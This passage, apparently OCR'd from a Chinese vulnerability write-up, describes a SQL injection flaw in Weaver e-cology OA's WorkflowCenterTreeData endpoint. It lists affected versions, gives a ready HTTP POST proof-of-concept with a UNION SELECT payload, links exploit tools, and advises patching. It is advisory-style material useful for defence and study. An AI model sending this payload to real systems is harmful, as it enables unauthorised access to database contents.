     屏蔽 / weaver/\* 目录的访问；
    
    https://www.weaver.com.cn/cs/securityDownload.asp
    

### 泛微 E-cology OA 系统 SQL 注入漏洞

1.  漏洞简介
    
    泛微 e-cology OA 系统的 WorkflowCenterTreeData 接口在使用 Oracle 数据库时, 由于内置 SQL 语句拼接不严, 导致泛微 e-cology OA 系统存在 SQL 注入漏洞。攻击者利用该漏洞，可在未授权的情况下，远程发送精心构造的 SQL 语句，从而获取数据库敏感信息。
    
2.  影响范围
    
    泛微 e-cology<=9.0
    
3.  漏洞复现
    
    泛微生态 OA 系统 SQL 注入扩展复现
    
    https://mumuka.gitee.io/passages/%E6%B3%9B%E5%BE%AEe-cology%20OA%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/
    
    泛微 e-cology OA 前台 SQL 注入漏洞复现
    
    https://cloud.tencent.com/developer/article/1521764
    
4.  简易 poc
    
    POST /mobile/browser/WorkflowCenterTreeData.jsp?node=wftype\_1&scope=2333 HTTP/1.1
    
    Host: ip:port
    
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
    
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
    
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    
    Accept-Encoding: gzip, deflateContent-Type: application/x-www-form-urlencoded
    
    Content-Length: 2236
    
    Connection: close
    
    Upgrade-Insecure-Requests: 1
    
    formids=11111111111)))%0a%0dunion select NULL,value from v$parameter order by (((1
    
5.  利用工具
    
    AdministratorGithub/e-cology-OA-SQL
    
    https://github.com/AdministratorGithub/e-cology-OA-SQL
    
    mmioimm/ecology\_test
    
    https://github.com/mmioimm/ecology\_test
    
6.  防护方法
    
    及时打补丁
    
    泛微官方安全补丁：https://www.weaver.com.cn/cs/securityDownload.asp
    
